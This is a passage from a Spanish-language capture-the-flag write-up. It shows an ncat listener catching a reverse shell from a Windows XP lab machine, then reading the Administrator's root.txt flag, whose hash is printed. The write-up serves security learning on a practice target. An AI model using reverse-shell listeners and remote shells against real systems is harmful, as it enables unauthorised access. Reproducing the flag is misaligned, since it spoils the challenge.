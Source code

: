 Recibimos la conexión, ahora podemos ir al directorio del usuario `Administrator` y leer la segunda flag `root.txt`.

```cmd
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1047.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> cd "Documents and Settings"
cd "Documents and Settings"

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings

16/03/2017  09:07     <DIR>          .
16/03/2017  09:07     <DIR>          ..
16/03/2017  09:07     <DIR>          Administrator
16/03/2017  08:29     <DIR>          All Users
16/03/2017  08:33     <DIR>          john
               0 File(s)              0 bytes
               5 Dir(s)   6.403.846.144 bytes free

C:\Documents and Settings>cd Administrator\Desktop
cd Administrator\Desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
C:\Documents and Settings\Administrator\Desktop>
```

